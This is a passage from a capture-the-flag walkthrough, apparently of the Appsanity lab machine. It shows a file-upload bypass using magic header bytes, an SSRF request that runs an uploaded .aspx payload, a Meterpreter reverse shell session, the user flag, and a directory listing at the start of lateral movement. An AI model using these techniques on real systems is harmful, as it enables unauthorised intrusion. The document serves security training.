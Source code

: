 Now in order to bypass the upload page, we can use a [pdf header](https://en.wikipedia.org/wiki/List_of_file_signatures) (magic header bytes: [Link](https://book.hacktricks.xyz/pentesting-web/file-upload#magic-header-bytes))
![Pasted image 20240714174215.png](/images/Pasted image 20240714174215.png){: .normal }


Clicking on “view report” and checking the request, we find the following GET parameter.
```bash
GET /ViewReport.aspx?file=2efd8368-d32c-4766-8c8c-d410adf48b23_rev.aspx
```

Let’s use it in our SSRF to execute the file.
![Pasted image 20240714174209.png](/images/Pasted image 20240714174209.png){: .normal }


We get a shell back.
```bash
[*] Started reverse TCP handler on 10.10.14.205:4444 
[*] Sending stage (200774 bytes) to 10.10.11.238
[*] Meterpreter session 1 opened (10.10.14.205:4444 -> 10.10.11.238:51249) at 2024-02-11 15:20:08 -0500

meterpreter > getuid
Server username: APPSANITY\\svc_exampanel
```

User flag: `7adbd31aebc017596276ea73485cf92d`
```bash
meterpreter > cat C:/Users/svc_exampanel/Desktop/user.txt
7adbd31aebc017596276ea73485cf92d
```


## Lateral movement
In the inetpub directory we end up finding DLL files.
```bash
meterpreter > ls
Listing: C:\\inetpub\\examinationpanel\\examinationpanel\\bin
=========================================================

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
100666/rw-rw-rw-  591752   fil   2023-09-24 11:46:11 -0400  EntityFramework.SqlServer.dll
100666/rw-rw-rw-  4991352  fil   2023-09-24 11:46:13 -0400  EntityFramework.dll
100666/rw-rw-rw-  13824    fil   2023-09-24 11:46:10 -0400  ExaminationManagement.dll
100666/rw-rw-rw-  40168    fil   2023-09-24 11:46:10 -0400  Microsoft.CodeDom.Providers.DotNetCompilerPlatform.dll
100666/rw-rw-rw-  206512   fil   2023-09-24 11:46:11 -0400  System.Data.SQLite.EF6.dll
100666/rw-rw-rw-  206520   fil   2023-09-24 11:46:11 -0400  System.Data.SQLite.Linq.dll
100666/rw-rw-rw-  431792   fil   2023-09-24 11:46:11 -0400  System.Data.SQLite.dll
040777/rwxrwxrwx  24576    dir   2023-09-24 11:49:49 -0400  roslyn
040777/rwxrwxrwx  0        dir   2023-09-24 11:49:49 -0400  x64
040777/rwxrwxrwx  0        dir   2023-09-24 11:49:49 -0400  x86
```
